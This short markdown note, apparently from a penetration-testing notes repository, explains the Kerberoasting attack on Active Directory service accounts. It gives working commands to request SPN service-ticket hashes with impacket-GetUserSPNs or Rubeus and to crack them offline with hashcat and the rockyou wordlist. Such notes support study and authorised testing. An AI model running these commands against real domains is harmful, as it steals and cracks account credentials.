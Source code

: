 # Kerberoasting

Targets service accounts in an Active Directory environment as an authenticated (but low privilege) user. This is done by requesting a service ticket from the TGS which is encrypted with the SPN's password hash. We can then crack the hash offline.

SPN format:

```bash
# Format
<service class>/<host>:<port>

# Examples
HTTP/web04.corp.com:80
```

Perform remotely with [GetUserSPNs](../../14%20Impacket%20Tools/GetUserSPNs.md)

```bash
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

Perform locally with [Rubeus](../0%20Tools/Local/Rubeus.md)

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
